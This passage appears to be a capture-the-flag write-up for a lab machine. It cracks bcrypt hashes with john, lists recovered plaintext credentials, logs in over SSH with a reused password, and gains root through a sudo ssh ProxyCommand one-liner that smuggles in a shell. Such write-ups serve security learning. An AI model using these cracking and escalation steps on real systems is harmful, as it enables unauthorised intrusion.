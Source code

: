We have 2 hashes that we can try to crack on our host:

file `pgsqlhashes.txt` :

```text
$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm 
```

```shell
john --wordlist /usr/share/wordlists/rockyou.txt ./pgsqlhashes.txt
```

We can recover `admin` password !

Credentials :

| Username  | email | Password             | Hash                                                           | Usage                |
| --------- | ----- | -------------------- | -------------------------------------------------------------- | -------------------- |
| josh      |       |                      |                                                                |                      |
| postgres  |       | Vg&nvzAQ7XxR         |                                                                | PostgreSQL           |
| kanderson |       | MRdEQuv6~6P9         |                                                                | web app on port 8080 |
| admin     |       | **manchesterunited** | `$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm` |                      |
| kanderson |       |                      | `$2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim` |                      |

With all these credentials, we can test SSH access (port 22 was found open by nmap).

It appears that `josh` user have reused his password `manchesterunited` :

```shell
ssh josh@cozyhosting.htb
```

And we get a SSH session on target host

### Privilege Escalation

We can quickly enumerate this host under this user to find :

```shell
sudo -l
```

```text
User josh may run the following commands on localhost:
(root) /usr/bin/ssh *
```

[https://gtfobins.github.io/gtfobins/ssh/#sudo](https://gtfobins.github.io/gtfobins/ssh/#sudo)

And we can find an exploit to get a shell :

```shell
sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
```

And we are root :

```shell
josh@cozyhosting:~$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
#
```
